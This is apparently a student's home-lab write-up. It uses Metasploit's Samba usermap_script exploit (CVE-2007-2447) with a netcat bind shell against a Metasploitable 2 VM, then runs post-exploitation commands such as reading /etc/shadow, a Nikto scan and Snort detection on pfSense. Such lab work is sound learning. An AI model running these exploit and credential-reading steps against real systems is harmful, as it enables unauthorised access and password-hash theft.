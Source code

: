 # Tools and System Analysis

`Metasploit Framework` (Kali)

The main exploit I used was the Samba exploit:

```bash
use exploit/multi/samba/usermap_script
```

This module exploits an old vulnerability in Samba (`CVE-2007-2447`) that allows an attacker to
run arbitrary commands. It was a good choice for my beginner lab because it’s simple and
doesn’t require authentication.

For the payload, I initially tried:

```bash
set payload cmd/unix/reverse
```

But I had issues with port binding and reverse shells, so I switched to:

```bash
set payload cmd/unix/bind_netcat
```

This bind shell worked better for my setup because it had Kali (the attacker) connect to
Metasploitable (the target). With a bind shell, the victim machine listens for a connection, and
the attacker connects to it. I also set the following options in `Metasploit`:

```bash
set RHOSTS 192.168.12.14
set RPORT 139
```

These told `Metasploit` the target’s IP address (Metasploitable), and the port Samba uses (139).
I did not set `LHOST` because the bind shell doesn’t need it — the victim listens, and the attacker
connects. When I ran:

```bash
run
```

`Metasploit` reported:

```
[*] Command shell session 1 opened (192.168.12.14:4444) at ...
```

To interact with the session, I used:

```bash
sessions -i 1
```

This dropped me into the shell on the Metasploitable machine. From there, I ran the following
commands:

```bash
id
whoami
uname -a
hostname
ifconfig
cat /etc/passwd
cat /etc/shadow
ls /home
netstat -antp
ps aux
exit
```

`id`
This command shows the current user’s ID (UID), group ID (GID), and groups. It helps confirm if
I have root (administrator) access, which I did.

`whoami`
This command tells the username I am logged in as. It confirmed that I was logged in as root,
which means I had full control over the system.

`uname -a`
This command displays system information, like the Linux kernel version and architecture. I
used it to identify what kind of system Metasploitable 2 was running, which could help in
choosing additional exploits.

`hostname`
This command shows the machine’s hostname. I used it to verify that I was on the correct
system, which was named `metasploitable`.

`ifconfig`
This command shows the network interfaces and IP addresses on the machine. I used it to
confirm the target’s IP address, which was `192.168.12.14`.

`cat /etc/passwd`
This command shows the list of user accounts on the system. It helps attackers find usernames
for future attacks, like brute-forcing passwords.

`cat /etc/shadow`
This command displays hashed passwords stored in the system (only accessible to root). I used
it to confirm that I could access password hashes, which could be cracked in a real attack.

`ls /home`
This command lists the contents of the `/home` directory, where user files are stored. It helped
me identify which users had home directories and what files they might have.

`netstat -antp`
This command lists active network connections, listening ports, and the programs using them. I
used it to see what services were running and what ports were open on the system.

`ps aux`
This command shows all running processes on the system. It’s useful for identifying services,
active users, or suspicious activity.

`exit`
This command closes the shell session and returns me to the `Metasploit` console in Kali.

After running the Samba exploit, I checked the `Snort` Alerts in the `pfSense` web interface. `Snort`
had detected and logged the attack attempts. This showed me that the IDS is useful for
identifying malicious traffic, like my exploit.

For this cybersecurity lab, I used several tools from `Kali Linux` that are commonly used in
penetration testing and ethical hacking. These tools helped me perform reconnaissance,
exploitation, and post-exploitation tasks in a simulated environment.

`Nmap`
`Nmap` is a network scanning tool used to discover hosts and services on a network. Although I
didn’t use it extensively in this lab, it’s an important tool for identifying open ports, services, and
potential targets for attacks. It’s often the first step in an attack, helping attackers map the
network.

`Netcat`
`Netcat` is a networking tool that can read and write data across network connections. I used
`Netcat` indirectly through `Metasploit`’s `bind_netcat` payload, which created a bind shell on
Metasploitable 2. `Netcat` is also used for port scanning, banner grabbing, and simple file
transfers.

`netstat`
`Netstat` is a network utility that shows active connections, listening ports, and associated
programs. I used `netstat -antp` on Metasploitable 2 after gaining access to see what
services were running and what ports were open.

`ps`
The `ps` command displays running processes on a system. I used `ps aux` to see what
processes were active on Metasploitable 2. This helped me understand what services and
applications were running, which could reveal additional vulnerabilities.

`Nikto`
`Nikto` is a web server vulnerability scanner included in `Kali Linux`. It is used to identify common
issues on web servers, such as outdated software versions, misconfigurations, or files that may
be left behind by developers. I used `Nikto` in this lab to scan the Metasploitable 2 web server
and look for potential security problems. The command I ran was:

```bash
nikto -h 192.168.12.14
```

`Snort`
`Snort` is an open-source intrusion detection and prevention system (IDS/IPS). It can monitor
network traffic in real time and alert administrators when it detects suspicious or malicious
activity. `Snort` uses a set of rules to analyze network packets and look for patterns that match
known attack signatures, such as port scans, exploit attempts, and malware communication.

In this lab, I installed `Snort` on the `pfSense` firewall and configured it to monitor
the `server_net (192.168.12.x)` network where Metasploitable 2 was located. `Snort` worked by
inspecting traffic between my attacker machine (`Kali Linux`) and the target machine
(`Metasploitable 2`). When I ran the Samba exploit, `Snort` detected the attack and logged an alert
in the `pfSense` web interface. This showed me how `Snort` can help identify and respond to
network threats by monitoring traffic at the firewall level.

IDS and IPS tools are essential in cyber defense because they provide visibility into what is
happening on a network. An `IDS` (Intrusion Detection System) monitors network traffic and
generates alerts when it detects suspicious patterns, while an `IPS` (Intrusion Prevention System)
goes a step further and can actively block malicious traffic. These tools help detect attacks
early, such as port scans, malware infections, or exploitation attempts, so that security teams
can respond before damage is done. Without `IDS/IPS`, attackers could exploit systems silently
without being detected.

This lab simulates a real-world security environment by creating a small network with a firewall
(`pfSense`), an `IDS/IPS` (`Snort`), a vulnerable server (`Metasploitable 2`), and an attacker machine
(`Kali Linux`). The lab taught me how an attack happens, how it is detected, and how network
segmentation and security tools work together to protect a system. It was a safe way to learn
how cyberattacks and defenses work in the real world.
